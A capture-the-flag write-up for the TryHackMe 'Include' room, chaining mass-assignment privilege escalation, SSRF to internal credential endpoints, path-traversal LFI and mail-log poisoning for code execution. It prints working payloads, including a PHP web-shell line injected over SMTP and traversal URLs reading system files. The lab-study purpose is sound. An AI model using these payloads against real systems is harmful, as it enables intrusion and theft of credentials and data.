 ```yaml
---
title: "Writeup: TryHackMe Include"
date: "2025-03-05T16:35:52.771Z"
slug: "writeup-tryhackme-include"
categories:
    - "it"
    - "writeups"
---
```


> [!info]
> - [Include](https://tryhackme.com/room/include)
> - Difficulty: medium
> - Platform: web, linux
>
> This challenge is an initial test to evaluate your capabilities in web pentesting, particularly for server-side attacks.
>
> Even if it's not accessible from the browser, can you still find a way to capture the flags and sneak into the secret admin panel?
>
> Answer the questions below
> 1. What is the flag value after logging in to the SysMon app?
> 2. What is the content of the hidden text file in `/var/www/html`?

This room acts as a final challenge for the advanced server-side attacks module. Vulnerabilities explored:

- Broken object property level authorization (BOPLA)
- Information disclosure
- SSRF
- LFI2RCE via log poisoning

{{< toc >}} 

## Information gathering

I started with a port scan:

```bash
$ sudo nmap -sS -vv -T4 MACHINE_IP

PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     syn-ack ttl 61 Postfix smtpd
110/tcp   open  pop3     syn-ack ttl 61 Dovecot pop3d
143/tcp   open  imap     syn-ack ttl 61 Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap syn-ack ttl 61 Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 syn-ack ttl 61 Dovecot pop3d
4000/tcp  open  http     syn-ack ttl 61 Node.js (Express middleware)
50000/tcp open  http     syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are lots of open ports: SSH, two web apps, and a mail server.

The first web app running on port 5000 is a SysMon portal. We need to find a way into it to get the first flag.

![Screenshot of SysMon app](ctf_include_sysmon_home.png)

The second web app is running on port 4000.

![Screenshot of review web app login page](ctf_include_social_login.png)

Here, I almost missed the big "Sign In using guest/guest" phrase.

## Privilege escalation via mass assignment vulnerability

Logging in with guest credentials displays several profiles. Current user profile exposes a lot of properties which can be considered [an excessive data exposure part of BOPLA](https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/) vulnerability. And there is a form which allows adding new properties.

![Screenshot of user profile](ctf_include_profile.png)

The form is vulnerable to the BOPLA's mass assignment attack, so I used it to escalate current user privileges to the administrator by changing value of `isAdmin` property.

![Screenshot of the form set to isAdmin and true values](ctf_include_admin_form.png)

> [!note]
> Some writeups call this prototype pollution vulnerability, which is incorrect: we don't modify object prototype here.

## Getting admin credentials via SSRF

After successful privilege escalation, the page has two new links: "API" and "Settings".

![Screenshot of the page with new links](ctf_include_profile_admin.png)

On "API" page there is information about how to access internal APIs; one endpoint allows getting administrator credentials.

```
API Dashboard

Below is a list of important APIs accessible to admins with sample requests and responses:

Internal API

GET http://127.0.0.1:5000/internal-api HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "secretKey": "superSecretKey123",
    "confidentialInfo": "This is very confidential."
}

Get Admins API

GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```

"Settings" page allows changing banner image by providing URL.

![Screeenshot of Admin Settings page](ctf_include_admin_settings.png)

This page is vulnerable to SSRF attack. Instead of image URL I provided credentials endpoint:

![Screenshot of form set to credentials API url](ctf_include_banner_ssrf.png)

The page includes the response in base64 encoded format:

![Screenshot of the page displaying result of SSRF](ctf_include_ssrf_response.png)

I used CyberChef to decode it:

```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0= 

---

{"ReviewAppUsername":"admin","ReviewAppPassword":"REDACTED","SysMonAppUsername":"administrator","SysMonAppPassword":"REDACTED"}
```

## First flag

With these credentials I logged into SysMon app and got the first flag.

![Screenshot of the dashboard with displayed flag](ctf_include_sysmon_dashboard.png)


## LFI2RCE via log poisoning

Profile picture on the dashboard has a curious `src`:

```html
<img src="profile.php?img=profile.png" class="img-fluid rounded-circle mb-3 profile-pic" alt="User Profile Picture">
```

To check whether it is vulnerable to local file inclusion I used `ffuf`:

```
$ ffuf -r -c -request req -request-proto 'http' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0
...
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
```

Since the second flag is found on the file system, I guessed I needed to achieve LFI2RCE. Initially, I unsuccessfully attempted Apache log poisoning.

Remembering that there was a mail server, I tried [mail log poisoning](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/LFI-to-RCE/#rce-via-mail). First, I confirmed that the file `/var/log/mail.log` can be accessed.

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log
```

Next, to poison the log, I sent PHP code payload as an address:

```
$ telnet MACHINE_IP 25
...
220 mail.filepath.lab ESMTP Postfix (Ubuntu)
helo ok
250 mail.filepath.lab
mail from: <?php system($_GET["cmd"]); ?>
501 5.1.7 Bad sender address syntax
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Now we can use `cmd` parameter to run commands on the system.

## Second flag

While it's possible to [start a reverse shell and get access to the entire system](https://jaxafed.github.io/posts/tryhackme_include/#log-poisoning-to-rce), I simply listed files:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=ls 
```

And then used LFI again to get the content of the flag file:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/www/html/REDACTED.txt 
```

